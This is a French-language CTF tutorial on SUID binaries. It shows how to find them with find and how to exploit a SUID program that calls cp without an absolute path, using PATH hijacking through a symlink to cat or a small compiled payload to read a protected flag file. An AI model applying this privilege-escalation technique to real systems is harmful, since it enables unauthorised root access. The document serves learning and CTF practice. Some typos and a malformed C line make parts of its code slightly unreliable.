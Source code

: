 # Challenges
## Overview

# SUID Shell script, programmes SUID

L'une des premières choses qu'on peut chercher à savoir durant un audit, c'est si un programme peut-etre exécuté par n'importe quel utilisateur avec les permissions d'un autre.

Des scripts, comme linpeas.sh font ce travail pour nous. Cependant, dans le cadre de challenges, de ctf etc. il peut-^etre intéressant de savoir comment cela fonctionne.

Pour trouver des programmes avec un SUID (Set User ID), il suffit de faire une recherche avec find :

```sh
    find / -perm -u=s -type f
```

En général, de très simple challenges proposent un programme avec un SUID, et le code source. Par exemple, un programme peut faire un truc bidon sur un fichier (au hasard le flag qu'on doit choper), et charge à nous d'utiliser cette faiblesse organisée afin de la tourner à notre avantage.

[Un lien](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) explique le fonctionnement de base de cet tye de vulnérabilité.

Admettons qu'un programme avec SETUID fasse quelque chose sur un fichier. Il utilise par exemple
```C
system(cp /home/michel/flag.txt /root/supersecret);
```
Ce programme - appelons-le supercopy -, a comme permissions (ici c'est une permission root, au lieu de lire le fichier on pourrait avoir un shell root) :

```sh
-rwsr-xr-x root root ...
```

On peut faire en sorte qu'au lieu que ce soit cp qui soit invoqué, ce soit un autre programme.

Plusieurs moyens existent :

 - Faire un lien symbolique de cat avec le nom de cp
 ```sh
    ln -s /bin/cat /tmp/cp
    export PATH=/tmp:$PATH
    ./supercopy
    $ : flag...
 ```
 Ici, on exploite le fait que le chemin absolu vers cp n'est pas noté, et que seul le chemin relatif est donc utilisé. C'est une technique toute b^ete, que nous allons utiliser tout le temps dans le cadre de ces petit exemple.
 - On peut écrire nous m^eme un programme (dans tmp par ex, car tout le monde peut écrire dans ce dossier en général) pour invoquer cat :
   ```C
    int main(void)
    {
        system("/bin/cat /home/michel/flag.txt");
        return 0;
    }
    ```

    ```sh
        gcc payload.c -o cp
        export PATH=/tmp
        ./supercopy
        $ : flag...
    ```
